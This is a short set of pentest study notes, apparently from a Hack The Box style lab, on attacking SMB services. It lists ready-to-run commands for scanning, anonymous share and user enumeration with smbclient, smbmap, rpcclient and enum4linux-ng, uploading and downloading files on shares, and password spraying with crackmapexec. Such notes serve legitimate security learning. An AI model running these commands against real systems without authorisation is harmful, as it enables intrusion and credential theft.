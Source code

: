 # Attacking SMB

Initially, it was designed to run on 
- top of NetBIOS over TCP/IP (NBT) using TCP port 139
- UDP ports 137 and 138.

With Windows 2000, Microsoft added the option to :
- run SMB directly over TCP/IP on port 445 without the extra NetBIOS layer. 

MB running on port 139 TCP/IP -> running with NetBIOS over TCP

## Enumeration

sudo nmap $TARGET -sV -sC -p139,445

essential information about the target:

SMB version (Samba smbd 4.6.2)
Hostname HTB
Operating System is Linux based on SMB implementation

## Misconfigurations

- Anonymous Authentication

- File Share

smbclient -N -L //$TARGET

smbmap -H $TARGET

smbmap -H $TARGET -r notes

smbmap -H $TARGET --download "notes\note.txt"

smbmap -H $TARGET --upload test.txt "notes\test.txt"

- RPC Client

rpcclient -U'%' $TARGET

rpcclient $> enumdomusers

- enum4linux

./enum4linux-ng.py $TARGET -A -C

## Protocol Specifics Attacks

### Brute Forcing and Password Spray

cat /tmp/userlist.txt

Password spraying :
crackmapexec smb $TARGET -u /tmp/userlist.txt -p 'Company01!' --local-auth

--local-auth : when it is a non-domain joined machine
